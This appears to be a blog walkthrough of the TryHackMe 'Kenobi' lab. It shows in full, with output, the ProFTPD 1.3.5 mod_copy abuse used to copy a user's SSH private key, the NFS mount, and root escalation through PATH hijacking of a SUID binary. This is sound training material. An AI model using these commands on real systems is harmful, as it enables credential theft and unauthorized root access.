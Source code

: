 ```yaml
---
title: 'Kenobi - TryHackMe Walkthrough'
date: 2020-06-25 00:00:00
featured_image: '/images/posts/kenobi-linux-ftp-server.png'
excerpt: Exploiting a Linux machine and enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation
---
```

![](/images/posts/kenobi-thm.png)

### Goal
- Exploiting a Linux machine.
- Enumerate Samba for shares, manipulate proftpd and escalate privileges with path variable manipulation

### Reconnaissance
 With nmap scan found the below ports are open ports and running services on the target:   

```bash
  $ nmap 10.10.143.1 -vvv
    PORT     STATE SERVICE      REASON
    21/tcp   open  ftp          syn-ack
    22/tcp   open  ssh          syn-ack
    80/tcp   open  http         syn-ack
    111/tcp  open  rpcbind      syn-ack
    139/tcp  open  netbios-ssn  syn-ack
    445/tcp  open  microsoft-ds syn-ack
    2049/tcp open  nfs          syn-ack
```

### Samba
Samba allows end users to access the files, printers and commonly shared resources on the intra and internet. Often referred as Network File System.
It is based on *common client/server protocol of Server Message Block (SMB)*.
**Note**: SMB is developed only for Windows, so without Samba other than Windows platforms would be isolated in the network.  

The server has Samba running, so enumerating for shares:

` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.143.1 `

Found below user names and their paths:  
guest - C:\tmp  
anonymous - C:\home\kenobi\share  
print  - \var\lib\samba\printers  

There is a `log.txt` file under anonymous id which contains SSH, FTPd and other information.


    nmap  -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.48.174

    PORT    STATE SERVICE
    111/tcp open  rpcbind
    | nfs-showmount:
    |_  /var *

The `/var` location is available to mount.

### Exploiting the FTP service
With a simple netcat, we can connect to FTPd service and get the version it is running.
```bash
$ nc 10.10.48.174 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]
```

From above, we can see the proFTPD is running on 1.3.5 version.

Lets see if there are any exploits available for proFTPD 1.3.5

    $ searchsploit proftpd 1.3.5
    --------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                     |  Path
    --------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                          | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                                                          | linux/remote/36742.txt
    --------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
Using the mod copy exploit, we can copy the private key that we see in the log.txt to a location where we can access:

    nc 10.10.48.174 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.48.174]

    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful
Mount the /var on our system to access the file:

    sudo mount 10.10.48.174:/var /mnt/kenobiNFS/

Copy the mnt/kenobiNFS/tmp/id_rsa to a directory and then ssh into the server

    ssh -i id_rsa kenobi@10.10.48.174

### Privilege Escalation  

Finding any abnormal files with SUID bit:

    find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
    -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6

From the above, we can see the `/usr/bin/menu` seems a custom program and lets see if we can do any on this.

The functionality of this custom program seems checking  web connection using `curl`, kernel version and ip status using `ifconfig`.

    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :1
    HTTP/1.1 200 OK
    Date: Mon, 29 Jun 2020 22:38:57 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
    ETag: "c8-591b6884b6ed2"
    Accept-Ranges: bytes
    Content-Length: 200
    Vary: Accept-Encoding
    Content-Type: text/html

    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :2
    4.8.0-58-generic
    kenobi@kenobi:~$ /usr/bin/menu

    ***************************************
    1. status check
    2. kernel version
    3. ifconfig
    ** Enter your choice :3
    eth0      Link encap:Ethernet  HWaddr 02:29:8f:02:e1:de  
              inet addr:10.10.96.188  Bcast:10.10.255.255  Mask:255.255.0.0
              inet6 addr: fe80::29:8fff:fe02:e1de/64 Scope:Link
              UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
              RX packets:2405 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2269 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1000
              RX bytes:155505 (155.5 KB)  TX bytes:3081289 (3.0 MB)

    lo        Link encap:Local Loopback  
              inet addr:127.0.0.1  Mask:255.0.0.0
              inet6 addr: ::1/128 Scope:Host
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:214 errors:0 dropped:0 overruns:0 frame:0
              TX packets:214 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1
              RX bytes:15541 (15.5 KB)  TX bytes:15541 (15.5 KB)

- Using the environment variable manipulation we can manipulate the command to execute with our custom command.
- As the "status check" is using the curl command, we create a dummy curl file  `/tmp/curl` which executes `/bin/sh`. The path `/tmp` will be added to start of the `PATH` variable.  When a binary is called, it will  always check from left to right and our `/tmp/curl` will be picked up.
- As `/usr/bin/menu` has the effective user as root, our command will get execute with root which in turn spawns a root shell.  

```bash
    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 755 curl
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
    kenobi@kenobi:/tmp$ echo $PATH
    /tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
    kenobi@kenobi:/tmp$ /usr/bin/menu
    ***************************************
    1. status check
    2. kernel version
    3.  ifconfig
    ** Enter your choice :1
     # id
    uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

### CTF
The flag in /root/root.txt is `177b3cd8562--------2721c28381f02`
